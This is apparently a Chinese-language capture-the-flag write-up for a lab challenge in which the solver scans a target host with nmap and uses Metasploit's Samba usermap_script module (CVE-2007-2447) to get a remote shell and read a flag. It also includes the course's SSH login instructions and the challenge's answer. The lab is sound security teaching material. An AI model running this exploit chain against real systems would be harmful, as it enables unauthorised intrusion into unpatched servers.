

# metasploit

## [40] lost food
### **topic**

駭客貓貓在攻擊目標 (172.63.0.21) 中途把食物弄丟了！

回來的駭客貓貓又餓又累，看起來是不能親自取回食物了，請進入駭客貓貓的家，入侵目標，幫駭客貓貓找回他的食物！

> s...am...b...a...
> 
> 2...0...07...24...4...7...
> 
> by 駭客貓貓

註記：

請利用ssh連線至主機後在主機上操作。

ssh帳號與密碼都是學號，可登入後自行修改

ssh mid.macacahub.tw -p 22000 -l "帳號"


### **hint**

> CVE

### **solution**
駭客貓貓留下兩句話，一句話透漏主機有 samba 的弱點，而另一句話則是暗示 CVE-2007-2447。

連入主機後先用 nmap 掃描靶機確認漏洞。

> 

開的 port 不多，samba 預設使用 445 port，不須額外尋找其他 port。

使用 msfconsole 進入 metasploit 後搜尋 samba 的模組。
```shell=
msf> search samba
```
> 

根據題意，搜尋 [20072447](https://bfy.tw/S2vX) 後應可查到唯一的 Samba Usermap Script 漏洞，請使用對應的 module。

```shell=
msf> use exploit/multi/samba/usermap_script
msf> show options
```
> 

照選項填完 RHOST 以及 RPORT 即可，因不是考點，該題不需修改其他東西。

取得 shell 後應可看到 hacker_meow 留下的flag
